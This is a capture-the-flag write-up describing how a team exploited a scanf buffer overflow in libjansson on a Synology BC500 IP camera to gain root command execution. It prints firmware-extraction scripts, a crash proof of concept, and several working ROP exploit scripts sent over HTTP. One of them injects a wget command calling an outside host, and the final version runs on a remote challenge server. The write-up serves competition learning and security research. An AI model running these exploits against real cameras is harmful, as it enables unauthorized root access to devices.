



:::note
I originally wrote this writeup for my previous company, [Hackcyom](https://www.hackcyom.com/). You can also read it on their website: [RealWorldCTF: Let's party in the house — Write Up](https://www.hackcyom.com/services/blog/rwctf-lets-party-in-the-house-wu).
:::

This weekend the [RealWorld CTF](https://realworldctf.com/) happened. This is one of the most famous and prestigious CTFs in the world. I played with "Friendly Maltese Citizens" and took 3rd place. This article is a writeup of the challenge "Let's party in the house", a binary exploitation challenge of difficulty "Schrödinger" (the rating scale is baby/medium/hard/schrödinger).

We were one of only six teams to solve it.



:::tip[TL;DR]
The objective was to exploit a buffer overflow in `libjansson.so.4.7.0` and achieve RCE on the Synology BC500 Camera.
:::

## Finding the bug

When we started, we guessed it was probably a buffer overflow shown at Pwn2Own Toronto. However, because we couldn't find any proper resources, we got to reversing.

### 1st approach: diffing

Since we knew the version given to us, we decided to diff with the version we knew fixed the vulnerability. This proved more tedious than planned, as we weren't given a `.cpio` file directly.

When reversing the firmware, we noticed that the function at `0x00054a54` in `/bin/systemd` was likely the firmware parser. Using that function as a base, we built this script:

```python
from pwn import *
import zlib
f = open('Synology_BC500_1.0.7_0298.sa.bin','rb')

header = f.read(0x7e)
num_sub_headers = u16(header[0x7c:])

prescript_len = u32(f.read(4))
prescript = zlib.decompress(f.read(prescript_len))
postscript_len = u32(f.read(4))
postscript = zlib.decompress(f.read(postscript_len))

ff = open('pre-script.sh','wb')
ff.write(prescript)
ff.close()
ff = open('post-script.sh','wb')
ff.write(postscript)
ff.close()

def read_sub_header(i):
    sub_header = f.read(0x48)
    name, subscript_len, image_len = sub_header[:0x40], u32(sub_header[0x40:0x44]), u32(sub_header[0x44:])
    subscript = zlib.decompress(f.read(subscript_len))
    image = zlib.decompress(f.read(image_len))
    ff = open(f'ex-script{i}','wb')
    ff.write(subscript)
    ff.close()
    ff = open(f'image{i}','wb')
    ff.write(image)
    ff.close()

for i in range(num_sub_headers):
    read_sub_header(i)
```

This allowed us to extract scripts and images from the firmware. We ended up with 4 images, which after a bit of digging we associated like this:

```text
image0 - kernel
image1 - rootfs
image2 - loader
image3 - fdt
```

At this point we wanted to mount the rootfs, however it was in a UBI format and we could never extract / mount it. This is a beautiful showcase of something called "big skill issue". Only after the CTF one of the teammates built a working script to extract it:

```python
import ctypes
import os

class ubi_ec_hdr(ctypes.BigEndianStructure):
    _pack_ = 1
    _fields_ = [
        ('magic', ctypes.c_uint32),
        ('version', ctypes.c_uint8),
        ('padding1', ctypes.c_uint8 * 3),
        ('ec', ctypes.c_uint64),
        ('vid_hdr_offset', ctypes.c_uint32),
        ('data_offset', ctypes.c_uint32),
        ('image_seq', ctypes.c_uint32),
        ('padding2', ctypes.c_uint8 * 32),
        ('hdr_crc', ctypes.c_uint32),
    ]

class sqsh_super_block(ctypes.LittleEndianStructure):
    _pack_ = 1
    _fields_ = [
        ('magic', ctypes.c_uint32),
        ('inode_count', ctypes.c_uint32),
        ('mod_time', ctypes.c_uint32),
        ('block_size', ctypes.c_uint32),
        ('frag_count', ctypes.c_uint32),
        ('compressor', ctypes.c_uint16),
        ('block_log', ctypes.c_uint16),
        ('flags', ctypes.c_uint16),
        ('id_count', ctypes.c_uint16),
        ('version_major', ctypes.c_uint16),
        ('version_minor', ctypes.c_uint16),
        ('root_inode', ctypes.c_uint64),
        ('bytes_used', ctypes.c_uint64),
        ('id_table', ctypes.c_uint64),
        ('xattr_table', ctypes.c_uint64),
        ('inode_table', ctypes.c_uint64),
        ('dir_table', ctypes.c_uint64),
        ('frag_table', ctypes.c_uint64),
        ('export_table', ctypes.c_uint64),
    ]

started = False
_path = './extract_1.0.6/image1'
blocksize = 0x20000
with open(_path, 'rb') as f, open('./hsqs', 'wb') as f2:
    for i in range(os.path.getsize(_path)//blocksize):
        f.seek(blocksize*i)
        hdr = ubi_ec_hdr.from_buffer(bytearray(f.read(0x40)))
        f.seek(blocksize*i+hdr.data_offset)
        if not started and f.peek(4)[:4] == b'hsqs':
            started = True
        if started:
            f2.write(f.read(blocksize-hdr.data_offset))
```

This led to us stopping trying to diff anything.

### 2nd approach: googling

While trying to come up with a solution to diff, one of the teammates sent [this link](https://teamt5.org/en/posts/teamt5-pwn2own-contest-experience-sharing-and-vulnerability-demonstration/) to a small post by TeamT5, briefly explaining how they exploited the camera. After a bit of looking around, we found that the function at `0x6ad4` (later renamed to `parse_object`) is the function they exploited.



From that we knew the buffer overflow is from a `scanf("%s %s")` and that it was in `/lib/libjansson.so.4.7.0`. We got to reversing and found out that the best way to reach that vulnerable `scanf` is by reaching `json_loads`.

We noticed that function was used in `/www/camera-cgi/synocam_param.cgi`. After a bit of renaming/retyping, this is what it looked like:



Each `HandleHttp*` called `json_loads` at some point. With that we built a small PoC that should lead to a crash from the `.cgi`.

```python
import requests
import json

url = 'http://127.0.0.1:8080/syno-api/security/info/language'

header = {
    'Cookie':'sid=123'
}

json = [{
    'a':'',
    'a aaaaaaaaaaaaaaaaaaaabbbb':'',
}]

res = requests.post(url, json=json, headers=header)
print(res.text)
```

We knew it crashed because when running it, our script would error on a "connection closed" bug.

In parallel we got a [gdbserver](https://github.com/hacksysteam/gdb-cross-compiler/releases) and got it to run by adding this script to `/etc/init.d/S50_IPcamApp`.

```bash
echo "INIT GDBSERVER"
if /bin/gdbserver --multi localhost:1337 /bin/sh ; then
    echo "GDBSERVER INIT SUCCESS"
else
    echo "GDBSERVER INIT FAIL"
fi
```

Then adding `-nic user,hostfwd=tcp:0.0.0.0:8080-:80,hostfwd=tcp:0.0.0.0:1337-:1337 \` to the provided `run.sh` would allow us to connect.

## Exploiting

During the exploitation we actually tried many different ways to ropchain our way to RCE. Due to various limitations, such as no null bytes and addresses that can't contain any char > `0x80`, we were stuck for a good while.

Still, we came up with this script:

```python
import requests
import json
from pwn import *

libc = ELF("./libc-2.30.so")
r = remote('127.0.0.1', 8080)
context.arch = "arm"

url = 'http://127.0.0.1:8080/syno-api/security/info/language'
header = {
    'Cookie':'sid=123'
}

base = 0x450000
execve_off = 0x52ecc
mov_r0 = 0x000310f4 # : mov r0, r3; pop {fp, pc};
pop_r3 = 0x0000654c # : pop {r3, pc};
pop_r0 = 0x000d4c60 # : pop {r0, r1, r2, r3, ip, lr}; bx ip;

guessed_base = 0x76755000
guessed_libc_base = guessed_base + 0x41000
guessed_libc_exit = guessed_libc_base + 0x2f368

log.info(f"GUESSED_BASE: {hex(guessed_base)}")
log.info(f"GUESSED EXIT: {hex(guessed_libc_exit)}")
log.info(f"pop_r0: {hex(guessed_libc_base + pop_r0)}")

payload = b'[{"a ' + b'C'*204 + p32(0x42424242) + p32(0x41414141)+ b'":"","a ":""}]'

start = b'POST /syno-api/security/info/language HTTP/1.1\r\nHost: 127.0.0.1:8080\r\nContent-Type:application/json\r\n'
header2 = b"Cookie:sid=123\r\n"
leng = b"Content-Length: " + bytes(str(len(payload)), "utf-8") + b"\r\n\r\n"

log.info(start+header2+leng+payload)
r.send(start+header2+leng+payload)
r.interactive()
```

It would crash at `0x42424242`, giving us proper control of the PC.

After being stuck for a while, a teammate found a one-gadget that allowed us to give commands to `popen` and execute them. We settled on executing `cat /flag > /www/index.html`, as it would be easier than trying some fancy reverse shell (we didn't have the ports exposed).

The updated exploit looked like this:

```python
import requests
import json
from pwn import *

r = remote('127.0.0.1', 8080)

context.arch = "arm"

base = 0x450000
guessed_base = 0x76755000
guessed_libc_base = guessed_base + 0x41000
guessed_libc_exit = guessed_libc_base + 0x2f368

popen = 0x14344
popenGadget = popen + base
off_cmd = 0xc2738
cmd = base + off_cmd

log.info("Popen: " + hex(popenGadget))
log.info("cmd: " + hex(cmd))

sep = b'"t":"' + b'P'*0x500 + b'",'
sep1 = b'"t1":"' + b'P'*0x500 + b'",'
sep2 = b'"t2":"' + b'P'*0x500 + b'",'

pCmd = b'wget http://10.0.2.2:12345/;'

payload = b'[{' + sep + sep1 + sep2 + b'"' + b'a'*(204+32) + p32(0x43434343) + p16(cmd & 0xffff) + p8(cmd >> 16) + b' ' + b''.ljust(204, b'C') + p16(popenGadget & 0xffff) + p8(popenGadget >> 16)+ b'":"' + pCmd.ljust(119, b'a') +b'"}]'

start = b'POST /syno-api/security/info/language HTTP/1.1\r\nHost: 127.0.0.1:8080\r\nContent-Type:application/json\r\n'
header2 = b"Cookie:sid=123\r\n"
leng = b"Content-Length: " + bytes(str(len(payload)), "utf-8") + b"\r\n\r\n"

log.info(start+header2+leng+payload)
r.send(start+header2+leng+payload)
r.interactive()
```

Since we only have to guess the `0x4x` of base, the success rate was 1/16, which is pretty good. However, for some obscure reason the command never got executed. A teammate spent some time debugging and ended up being able to execute commands. He ran the exploit and saw a flag in `index.html`. He then ran it on remote, and voilà!

This was the updated and final exploit:

```python
import requests
import json
from pwn import *

r = remote('47.88.48.133', 36344)

url = 'http://127.0.0.1:8080/syno-api/security/info/language'
header = {
    'Cookie':'sid=123'
}

libc_base = 0x76795000
binary_base = 0x400000

popen_off = 0x14d60

execve_off = 0x52ecc
mov_r0 = 0x000310f4 # : mov r0, r3; pop {fp, pc};
pop_r3 = 0x0000654c # : pop {r3, pc};

system_off = 0x6DC040

final_payload = b''
target_string = 0x4c5a40

start = b'[{'
entry = b'"'
seperate = b'":"",'
end = b'":""}]'
payload = start + entry
payload += b'b":"' + b'b'*0x1000+b'cat /flag'
payload += b'","'
payload += b'c":"' + b' '*0xff0+b'cat /flag > /www/index.html'
payload += b'","'
payload += b'whoami":"","'
payload += b'a'*(204+36)
payload += p32(target_string)[:3]
payload += b" "
payload += b'C'*204
payload += p32(binary_base + popen_off)[:3]
payload += end

start = b'POST /syno-api/security/info/language HTTP/1.1\r\nHost: 127.0.0.1:8080\r\nContent-Type:application/json\r\n'
header2 = b"Cookie:sid=123\r\n"
leng = b"Content-Length: {}\r\n\r\n".format(len(payload))

log.info(start+header2+leng+payload)
r.send(start+header2+leng+payload)

r.interactive()
```

With that we could execute any command as root on the camera and got the flag.
